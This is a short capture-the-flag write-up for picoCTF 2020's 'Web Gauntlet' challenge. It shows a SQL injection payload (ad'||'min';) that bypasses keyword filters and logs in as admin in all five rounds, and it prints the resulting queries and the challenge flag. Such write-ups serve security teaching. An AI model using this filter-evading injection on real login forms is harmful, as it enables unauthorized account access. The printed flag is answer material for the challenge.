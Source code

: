 # Web Gauntlet

```markdown
Tags: `picoCTF 2020 Mini-Competition` `Web Exploitation` 
```

## **Description**

Can you beat the filters? Log in as admin [http://jupiter.challenges.picoctf.org:29164/](http://jupiter.challenges.picoctf.org:29164/) [http://jupiter.challenges.picoctf.org:29164/filter.php](http://jupiter.challenges.picoctf.org:29164/filter.php)

## Round 1/5

<figure><img src="../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

The filter of round 1: OR&#x20;

```sql
Username: ad'||'min';
password: 1
```

```sql
SELECT * FROM users WHERE username='ad'||'min';' AND password='1'
```

## Round 2/5

<figure><img src="../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

The filter of round 2: or and like = --

```sql
Username: ad'||'min';
password: 1
```

```sql
SELECT * FROM users WHERE username='ad'||'min';' AND password='1'
```

## Round 3/5

<figure><img src="../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

The filter of round 3: or and = like > < --

```sql
Username: ad'||'min';
password: 1
```

```sql
SELECT * FROM users WHERE username='ad'||'min';' AND password='1'
```

## Round 4/5

<figure><img src="../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

The filter of round 4: or and = like > < -- admin

```sql
Username: ad'||'min';
password: 1
```

```sql
SELECT * FROM users WHERE username='ad'||'min';' AND password='1'
```

## Round 5/5

<figure><img src="../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

The filter of round 5: or and = like > < -- union admin

```sql
Username: ad'||'min';
password: 1
```

```sql
SELECT * FROM users WHERE username='ad'||'min';' AND password='1' 
```

## Flag

<figure><img src="../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (27).png" alt=""><figcaption><p><code>picoCTF{y0u_m4d3_1t_a3ed4355668e74af0ecbb7496c8dd7c5}</code></p></figcaption></figure>

## Follow Me

* **LinkedIn**: [https://www.linkedin.com/in/waris-damkham/](https://www.linkedin.com/in/waris-damkham/)
* **Website**: [https://waris-damkham.netlify.app/](https://waris-damkham.netlify.app/#home)
